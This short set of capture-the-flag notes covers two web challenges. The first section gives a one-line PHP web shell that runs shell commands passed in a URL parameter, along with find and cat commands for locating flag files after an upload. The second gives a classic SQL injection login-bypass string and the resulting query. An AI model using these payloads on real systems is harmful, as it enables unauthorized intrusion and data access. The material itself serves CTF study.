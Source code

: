 ## Gallery
web shell oneliner (must end w/ .php)
```php
$ <?php echo system($_GET["cmd"]); ?>
```
in path `/uploads/____/test.php?cmd=`
```j
find+../../+-name+*flag*`
cat+../../*/*flag*
```

## Simple Question of Logic 1
use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

x' or '1'='1
x' or '1'='1
```
as if to say
```erlang
$sql = "select * from users where username = 'x' OR '1'='1' and password = 'x' OR '1'='1'";
```
## Simple Question of Logic 2

